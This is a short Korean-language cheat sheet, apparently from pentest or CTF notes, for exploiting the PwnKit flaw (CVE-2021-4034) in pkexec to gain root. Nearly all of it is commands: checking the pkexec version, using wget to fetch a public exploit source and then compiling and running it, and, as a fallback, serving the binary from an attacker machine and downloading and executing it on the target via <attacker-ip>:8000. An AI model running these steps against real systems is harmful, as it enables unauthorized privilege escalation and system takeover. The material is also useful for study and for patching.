```bash
pkexec --version
```

> 버전이 **0.105 이하**면 **CVE-2021-4034 (PwnKit)** 취약

---

## 🪜 Exploit (수동 방식)

1. **Exploit 소스 저장**

```bash
# 설치
wget https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/pwnkit.c
# 컴파일
gcc pwnkit.c -o pwnkit
# 실행
./pwnkit

```

만약 `gcc` 안 되면 로컬에서 컴파일 후 업로드:

```bash
# 공격자 머신에서:
gcc pwnkit.c -o pwnkit

# 업로드:
python3 -m http.server 8000
```

```bash
# 대상 머신에서:
wget http://<attacker-ip>:8000/pwnkit
chmod +x pwnkit
./pwnkit
```

# 쉘 확인

```bash
whoami
id
```
